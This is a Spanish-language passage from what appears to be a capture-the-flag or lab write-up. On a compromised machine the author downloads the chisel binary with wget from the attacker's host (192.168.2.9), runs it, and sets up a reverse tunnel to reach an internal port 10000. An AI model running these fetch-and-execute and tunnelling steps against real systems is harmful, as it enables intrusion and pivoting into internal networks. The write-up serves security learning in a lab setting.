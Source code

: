 Por lo cual por alguna razón (primera vez que me pasa) no se está transmitiendo bien los archivos utilizando `pwncat-cs`.

Vamos a subir el `chisel` pero esta vez vamos a compartirlo por el puerto 8081 utilizando el módulo `http.server` de python.
```console
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Y ahora sí, en la máquina víctima tenemos el binario de `chisel`
```console
(remote) crow@manager:/tmp$ wget http://192.168.2.9:8081/chisel
--2025-01-02 17:00:23--  http://192.168.2.9:8081/chisel
Connecting to 192.168.2.9:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel'

chisel                                                     100%[======================================================================================================================================>]   8.25M  --.-KB/s    in 0.06s

2025-01-02 17:00:23 (129 MB/s) - 'chisel' saved [8654848/8654848]

(remote) crow@manager:/tmp$ chmod +x chisel
(remote) crow@manager:/tmp$ ./chisel

  Usage: chisel [command] [--help]

  Version: 1.9.1 (go1.21.0)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Nos ponemos en escucha por el puerto 1234 con `chisel` en nuestra máquina de atacante.
```console
/usr/share/chisel server -p 1234 --reverse
2025/01/02 17:00:54 server: Reverse tunnelling enabled
2025/01/02 17:00:54 server: Fingerprint WPwWfwckYNO8pJ9Q/l3++eSyRhcdUI2d2ypVLOYtr5c=
2025/01/02 17:00:54 server: Listening on http://0.0.0.0:1234
```

Ahora en la máquina víctima nos compartimos el puerto 10000 de la máquina víctima para que se convierta en el puerto 10000 de nuestra máquina local.
```console
./chisel client 192.168.2.9:1234 R:10000:127.0.0.1:10000
2025/01/02 17:01:24 client: Connecting to ws://192.168.2.9:1234
2025/01/02 17:01:24 client: Connected (Latency 1.21336ms)
```
